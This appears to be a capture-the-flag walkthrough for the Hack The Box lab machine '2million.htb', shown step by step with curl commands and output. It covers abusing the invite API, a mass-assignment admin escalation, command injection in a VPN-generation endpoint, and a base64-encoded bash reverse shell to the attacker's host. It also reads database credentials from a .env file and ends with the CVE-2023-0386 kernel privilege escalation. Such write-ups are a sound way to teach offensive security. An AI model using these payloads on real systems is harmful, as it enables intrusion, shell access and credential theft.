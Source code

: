 Running `nmap`, there are two ports open, 22, and 80 running ssh and http respectively. 

When I visit the target ip, I find the url is called `2million.htb`. I add this url to the hosts list,

```
echo '10.10.10.11 2million.htb' | sudo tee -a /etc/hosts
```

Visiting the `/invite` page, I find the javascript file `inviteapi.min.js` in the page source code. In the javascript code, there is a function `makeInviteCode` that returns base64 encrypted data. In the function there is a POST to a url `/api/v1/invite/how/to/generate`. Using this information we can use `curl` to probe the web application and get additional data, the invite code, cookies, etcetera.

```
curl -sX POST http://2million.htb/api/v1/invite/how/to/generate | jq
```

From the above curl we get a hint via a ROT13 encrypted data, that to generate an invite code, make a POST request to `/api/v1/invite/generate`

```
curl -sX POST http://2million.htb/api/v1/invite/generate | jq
```

We receive the code `U1oyN0ktUTVaOVMtREtOSVgtUDNDU00`, which if I run a base64 decryption, I get the invite code, `SZ27I-Q5Z9S-DKNIX-P3CSM`.

I insert the code into the `/invite` page and am redirected to the `register` page. I input a username, email, and password and can sign in through the `/login` page.

After logging in, if I access the `Access` tab and turn on Burp Suite to catch the next http request. I click on the `Connection Pack` button on the `Access` page and see that the GET request is to `/api/v1/user/vpn/generate` and a cookie is generated `PHPSESSID=nufb0km8892s1t9kraqhqiecj6`.

When I attempt to curl `/api` I get a 401 error:

```
curl -sv 2million.htb/api
```

This time I attempt a curl with the cookie I got earlier:

```
  curl -sv 2million.htb/api --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```

As a response I get the endpoint `v1`, and I attempt to curl that next:

```
curl -sv 2million.htb/api/v1 --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```

I get the responses, `/api/v1/admin/auth`, `api/v1/admin/vpn/generate`, `/api/v1/admin/settings/update`, so I will try those next.

```
curl http://2million.htb/api/v1/admin/auth --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```

The above command returns false, as we are not currently an administrative user.

```
curl -sv -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6"
```

I get a 401 unauthorized error as I'm not an admin yet.

```
curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```

This command works, but tells me that I am missing an email parameter.

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"email":"test@2million.htb"}' | jq

{
  "status": "danger",
  "message": "Missing parameter: is_admin"

}
```

I get an error I am missing the parameter `is_admin`.

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"email":"test@2million.htb", "is_admin": '1'}' | jq

{
  "id": 13,
  "username": "test",
  "is_admin": 1

}
```

This was successful, now I authenticate:

```
curl http://2million.htb/api/v1/admin/auth --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq

{
  "message": true

}
```

Now I curl the `/generate` endpoint:

```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test"}'

client
dev tun
proto udp
remote edge-eu-release-1.hackthebox.eu 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL
<SNIP>
```

Since a VPN configuration file was generated for the user, the php file that generated it could be vulnerable to inject malicious code to gain command execution on the remote system. Let's test this by adding `;id;` to the username field.

```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test;id;"}'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This is successful. I start a netcat listener: and inject a shell with the following payload:

```
nc -lnvp 1234
```

 and inject a shell with the following payload:

```
bash -i >& /dev/tcp/10.10.14.4/1234 0>&1
```

But the payload must be encrypted via base64:

```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzEyMzQgMD4mMQo= |
base64 -d | bash;"}'
```

This is a success and I get shell access on the web-server.

On the server, I find admin credentials in the `.env` file 

```
www-data@2million:/var/www/html$ cat .env

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

I run `ssh` with the above credentials to login to admin.

After logging in as admin, there is an email in the path `/var/mail/admin`, in the email I find there is a vulnerability on `overlay fuse`, a google search reveals CVE-2023-0386 and vulnerability is in the linux kernel.

Running the following commands I get details on the Operating System:

```
admin@ubuntu:~$ uname -a

Linux ubuntu 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022
x86_64 x86_64 x86_64 GNU/Linux

$ lsb_release -a

No LSB modules are available.
Distributor ID: Ubuntu
Description:  Ubuntu 22.04.2 LTS
Release:  22.04

Codename: jammy
```

There is an exploit available on github:

```
  $ git clone https://github.com/xkaneiki/CVE-2023-0386
```

Unzip:

```
  zip -r cve.zip CVE-2023-0386
```

Upload the contents using scp:

```
scp cve.zip admin@2million.htb:/tmp
```

Run the following commands:

```
$ cd /tmp
$ unzip cve.zip
$ cd /tmp/CVE-2023-0386/
$ make all
$ ./fuse ./ovlcap/lower ./gc &
$ ./exp
$ whoami
root
```

Now we have root access and can run `cat /root/root.txt` to get the flag.